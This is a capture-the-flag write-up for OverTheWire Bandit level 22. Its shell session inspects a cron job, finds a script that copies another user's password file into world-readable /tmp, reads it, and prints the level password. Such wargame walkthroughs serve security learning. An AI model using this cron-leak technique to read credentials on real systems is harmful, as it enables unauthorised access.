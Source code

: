 # Level 22
> A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.

```shell
bandit21@bandit:~$ ls /etc/cron.d/
cronjob_bandit22  cronjob_bandit23  cronjob_bandit24  e2scrub_all  otw-tmp-dir  sysstat

bandit21@bandit:~$ cat /etc/cron.d/cronjob_bandit22
@reboot bandit22 /usr/bin/cronjob_bandit22.sh &> /dev/null
* * * * * bandit22 /usr/bin/cronjob_bandit22.sh &> /dev/null

bandit21@bandit:~$ ls -lah /usr/bin/cronjob_bandit22.sh 
-rwxr-x--- 1 bandit22 bandit21 130 Sep 19 07:08 /usr/bin/cronjob_bandit22.sh

bandit21@bandit:~$ /usr/bin/cronjob_bandit22.sh
chmod: changing permissions of '/tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv': Operation not permitted
/usr/bin/cronjob_bandit22.sh: line 3: /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv: Permission denied

bandit21@bandit:~$ cat /usr/bin/cronjob_bandit22.sh
#!/bin/bash
chmod 644 /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
cat /etc/bandit_pass/bandit22 > /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv

bandit21@bandit:~$ cat /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
tRae0UfB9v0UzbCdn9cY0gQnds9GF58Q

bandit21@bandit:~$ exit

$ ssh bandit22@bandit.labs.overthewire.org -p 2220
$ tRae0UfB9v0UzbCdn9cY0gQnds9GF58Q
```
